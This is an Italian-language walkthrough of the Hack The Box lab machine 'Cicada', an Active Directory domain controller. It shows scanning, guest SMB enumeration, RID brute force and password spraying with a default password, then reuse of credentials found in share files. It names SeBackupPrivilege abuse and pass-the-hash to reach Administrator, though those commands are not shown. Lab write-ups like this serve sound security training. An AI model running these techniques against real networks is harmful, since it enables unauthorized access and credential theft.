


# **Cicada**


## **Reconnaissance**
Si scansiona la macchina target per individuare porte TCP aperte.
```bash
$ nmap -p- --min-rate 1000 -T4 10.129.218.242 
```
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
50190/tcp open  unknown
```

La presenza di servizi quali DNS, Kerberos, RPC, LDAP e SMB fanno pensare che si ha a che fare con un dominio Active Directory.

Tra gli altri servizi è disponibile anche WinRM.

Si scansionano le porte TCP individuate per raccogliere informazioni specifiche per i servizi esposti.
```bash
$ nmap -p53,88,135,139,389,445,464,593,636,50190 -sCV 10.129.218.242
```
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-20 23:10:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-11-20T23:11:54+00:00; +5h41m57s from scanner time.
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: 2025-11-20T23:11:53+00:00; +5h41m57s from scanner time.
50190/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Si aggiorna il file /etc/hosts aggiungendo un record per associare l'indirizzo IP della macchina target con hostname, domain controller e domain ottenuti con la scansione precendente.
```
10.129.218.242 CICADA-DC CICADA-DC.cicada.htb cicada.htb
```

## **Information Gathering**

### SMB
Si tenta di accedere come utente guest.
```bash
$ nxc smb cicada.htb -u guest -p '' 
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\guest: 
```

Ed anche come utente anonimo.
```bash
$ nxc smb cicada.htb -u '' -p ''
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\: 
```

Si enumerano le shares con l'account guest.
```bash
$ nxc smb cicada.htb -u guest -p '' --shares
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.218.242  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.218.242  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.218.242  445    CICADA-DC        -----           -----------     ------
SMB         10.129.218.242  445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.218.242  445    CICADA-DC        C$                              Default share
SMB         10.129.218.242  445    CICADA-DC        DEV                             
SMB         10.129.218.242  445    CICADA-DC        HR              READ            
SMB         10.129.218.242  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.218.242  445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.129.218.242  445    CICADA-DC        SYSVOL                          Logon server share 
```

Tra le shares standard vi sono anche le share **HR** e **DEV**. 

Si possiedono i permessi di accessso in lettura alla share HR.

Si enumerano gli utenti.
```bash
$ nxc smb cicada.htb -u guest -p '' --users
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\guest:
```

### Access to HR as guest


Si scarica sulla macchina Kali il file **Notice from HR.txt** e lo si analizza.

```

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp

```

E' esplicitata la password di default **Cicada$M6Corpb\*@Lp#nZp!8** per gli account in "Cicada Corp".

### RID brute force

```bash
$ nxc smb cicada.htb -u guest -p '' --rid-brute
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.218.242  445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.218.242  445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.218.242  445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.218.242  445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.218.242  445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.218.242  445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.218.242  445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.218.242  445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.218.242  445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.218.242  445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.218.242  445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.218.242  445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.218.242  445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.218.242  445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.218.242  445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

Si costruisce un file contenente alcuni username.

`users.txt`
```
emily.oscars
david.orelious
michael.wrightson
sarah.dantelia
john.smoulder
```

### Password Spraying

```bash
$ nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' 
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

Si ottengono le credenziali **michael.wrightson:Cicada$M6Corpb\*@Lp\#nZp\!8**.

## **Information Gathering as michael.wrightson**

### SMB

L'utente michael.wrightson ha accesso in lettura solo alla share HR, come guest.

Si enumerano gli utenti.

```bash
$ nxc smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users 
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.218.242  445    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.218.242  445    CICADA-DC        Administrator                 2024-08-26 20:08:03 0       Built-in account for administering the computer/domain 
SMB         10.129.218.242  445    CICADA-DC        Guest                         2024-08-28 17:26:56 0       Built-in account for guest access to the computer/domain 
SMB         10.129.218.242  445    CICADA-DC        krbtgt                        2024-03-14 11:14:10 0       Key Distribution Center Service Account 
SMB         10.129.218.242  445    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 0        
SMB         10.129.218.242  445    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 0        
SMB         10.129.218.242  445    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0        
SMB         10.129.218.242  445    CICADA-DC        david.orelious                2024-03-14 12:17:29 1       Just in case I forget my password is aRt$Lp#7t*VQ!3 
SMB         10.129.218.242  445    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 1        
SMB         10.129.218.242  445    CICADA-DC        [*] Enumerated 8 local users: CICADA
```

Nella descrizione di **david.orelious** viene specificata la password dell'account stesso.

Si verifica la validità delle credenziali **david.orelious:aRt$Lp\#7t\*VQ\!3**.

```bash
$ nxc smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3'
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
```

## **Information Gathering as david.orelious**

### SMB

```bash
$ nxc smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares 
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.218.242  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.218.242  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.218.242  445    CICADA-DC        -----           -----------     ------
SMB         10.129.218.242  445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.218.242  445    CICADA-DC        C$                              Default share
SMB         10.129.218.242  445    CICADA-DC        DEV             READ            
SMB         10.129.218.242  445    CICADA-DC        HR              READ            
SMB         10.129.218.242  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.218.242  445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.218.242  445    CICADA-DC        SYSVOL          READ            Logon server share 
```

L'account david.orelious possiede i permessi di lettura alla share DEV.


Si scarica il file **Backup_script.ps1** sulla macchina Kali e lo si analizza.

`Backup_script.ps1`
```

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```

Nel file cono contenute le credenziali **emily.oscars:Q\!3@Lp\#M6b\*7t\*Vt**.

Si verifica la validità delle credenziali trovate.

```bash
$ nxc smb cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 
```

## **Information Gathering as emily.oscars**

### SMB
Si enumerano le shares.
```bash
$ nxc smb cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' --shares 
```
```
SMB         10.129.218.242  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.218.242  445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 
SMB         10.129.218.242  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.218.242  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.218.242  445    CICADA-DC        -----           -----------     ------
SMB         10.129.218.242  445    CICADA-DC        ADMIN$          READ            Remote Admin
SMB         10.129.218.242  445    CICADA-DC        C$              READ,WRITE      Default share
SMB         10.129.218.242  445    CICADA-DC        DEV                             
SMB         10.129.218.242  445    CICADA-DC        HR              READ            
SMB         10.129.218.242  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.218.242  445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.218.242  445    CICADA-DC        SYSVOL          READ            Logon server share 
```

L'utente emily.oscars possiede alcuni privilegi sulle share di default.

Si verifica se si ha accesso alla shell.
```bash
$ nxc winrm cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' 
```
```
WINRM       10.129.218.242  5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) 
WINRM       10.129.218.242  5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

## **Shell as emily.oscars**

Si accede con WinRM.


Si accede al contenuto del file **user.txt**.


Si analizzano i privilegi dell'account.


L'utente emily.oscars possiede i permessi **SeBackupPrivilege** che permette di effettuare il backup di qualsiasi risorsa e di aggirare le ACL.

## **Privilege Escalation**

### SeBackupPrivilege abuse
Si sfrutta il permesso SeBackupPrivilege per accedere al contenuto di file sensibili come SAM, SECURITY e SYSTEM.


Si scaricano sulla macchina Kali le copie dei file SAM e SYSTEM.

### Data Exfiltration from the registries


Si ottiene **LMNT hash** dell'account **Administrator**.

## **Shell as Administrator**

### Pass The Hash
Si effettua l'accesso alla shell con l'account Administrator utilizzando il valore di NT hash della password.



Si accede al contenuto del file **root.txt**.



---
